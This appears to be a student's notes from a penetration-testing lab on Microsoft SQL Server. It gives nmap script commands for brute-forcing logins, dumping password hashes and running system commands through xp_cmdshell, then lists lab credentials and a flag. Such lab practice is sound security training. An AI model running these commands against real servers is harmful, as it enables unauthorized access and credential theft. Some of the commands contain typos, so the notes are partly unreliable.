 #### Tools
nmp

#### Commands

Get information on mysql server
```
nmap target_ip -p mysql_port --script ms-sql-info
```

Get information on ntlm server
```
nmap target_ip -p mysql_port --script ms-sql-ntlm-info --script=args mssql.instance-port=1443
```

Brute force mysql server with usernames and passwords
```
nmap target_ip -p mysql_port --script ms-sql-brute --script=args userdb=/root/Desktop/worlist/common_usrs.txt,passdb=/root/Desktop/worlist/100-common-passwords.txt
```

Check server for empty password logins
```
nmap target_ip -p mysql_port --script ms-sql-empty-password
```


Extract sys users from master..syslogins ? 
```
nmap target_ip -p mysql_port --script ms-sql-query --script-args mssql.username=admin,mssql.password=password,ms-sql-query.query="SELECT * FROM master..syslogins" -oN output.txt
```

Dump hashes through nmap
```
nmap target_ip -p mysql_port --script ms-sql-dump-hashes --script=args mssql.username=admin,mssql.password=password
```

Execute command on server with nmap
```
nmap target_ip -p mysql_port --script ms-sql-xp-cmdshell --script=args mssql.username=admin,mssql.password=password,ms-sql-cmdshell.cmd="ipconfig"
```

Grab flag from remote mysql server
```
nmap target_ip -p mysql_port --script ms-sql-xp-cmdshell --script=args mssql.username=admin,mssql.password=password,ms-sql-cmdshell.cmd="type c:\flag.txt"
```

#### Questions

10.4.20.236

1.  Identify MSSQL Database Server
   
```
nmap -sS -sV -p- -T 4  10.4.20.236  -v 

49679/tcp open  ms-sql-s      Microsoft SQL Server 2019 15.00.2000
1433/tcp  open  ms-sql-s      Microsoft SQL Server 2019 15.00.2000


nmap --script ms-sql-info.nse -p 1433 10.4.20.236
```
   
2.  Find information from the MSSQL server with NTLM.
   
```
nmap --script ms-sql-ntlm-info.nse -p 1433 10.4.20.236 

1433/tcp open  ms-sql-s
| ms-sql-ntlm-info: 
|   Target_Name: MSSQL-SERVER
|   NetBIOS_Domain_Name: MSSQL-SERVER
|   NetBIOS_Computer_Name: MSSQL-SERVER
|   DNS_Domain_Name: MSSQL-Server
|   DNS_Computer_Name: MSSQL-Server
|_  Product_Version: 10.0.14393

```
   
3.  Enumerate all valid MSSQL users and passwords
   
```
   
```
   
4.  Identify 'sa' user password
   
```
   
```
   
5.  Execute MSSQL query to extract sysusers
   
```
   
```
   
6.  Dump MSSQL users hashes
   
```
   
```
   
7.  Execute a command on MSSQL to retrieve the flag. (The flag is located inside C:\flag.txt)
   
```
   
```
   
nmap -p 1433 --script ms-sql-brute --script-args userdb=customuser.txt,passdb=custompass.txt <host>

#### Answers
1. Microsoft SQL Server 2019 15.00.2000
2. target name, production version 
3. aduitor:jasmine1 , dbadmin:bubbles1, admin:anamaria
4. nmap -p 1433 --script
5. nmap -p 1433 -sV target_ip --script=ms-sql-dump-hashes --script-agrs=mssql.username=admin,mssql.password=anamaria
6. 
7. 1d1803570245aa620446518b2154f324


#### Notes
sysuser sin this case have no password ? 